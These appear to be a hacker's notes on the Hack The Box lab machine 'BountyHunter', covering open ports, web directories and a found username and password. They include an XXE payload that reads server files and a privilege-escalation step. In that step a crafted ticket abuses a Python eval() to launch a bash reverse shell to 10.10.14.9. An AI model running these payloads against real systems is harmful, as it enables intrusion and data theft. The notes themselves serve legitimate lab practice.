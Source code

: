 | HOST                            | PORT | PROTO | SERVICE      | VERSION                 |
| ------------------------------- | ---- | ----- | ------------ | ----------------------- |
| 10.10.11.100 (bountyhunter.htb) | 22   | tcp   | OpenSSH      | 8.2p1 Ubuntu 4ubuntu0.2 |
| 10.10.11.100 (bountyhunter.htb) | 80   | tcp   | Apache httpd | 2.4.41                  |


## HEADERS
---
HTTP/1.1 200 OK
Date: Sun, 09 Jul 2023 16:43:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8

---

## DIRECTORIES
---
* /js  
* /index.php
* /css 
* /db.php
* /assets
* /resources 
* /portal.php
* /server-status

---

## USERS
---
development m19RoAU0hP41A1sTsq6K

---

## NOTES
---
* `/log_submit.php`
* `Disable 'test' account on portal and switch to hashed password. Disable nopass.` in http://bountyhunter.htb/resources/README.txt
* logsubmit vulnerable to XXE
* /etc/passwd works but php files return empty, need a php filter bypass
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```
* reveals development password
* sudo -l `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`
* ticket needs to look like this:
```
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**53+410+86**
##Issued: 2021/04/06
#End Ticket
```
to be valid, when the first number is divided by 7 there needs to be a remainder of 4
* the script is vulnerable to `eval()` injection https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/
* `**53+410+86+__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.9/2222 0>&1"')**` reverse shell
---
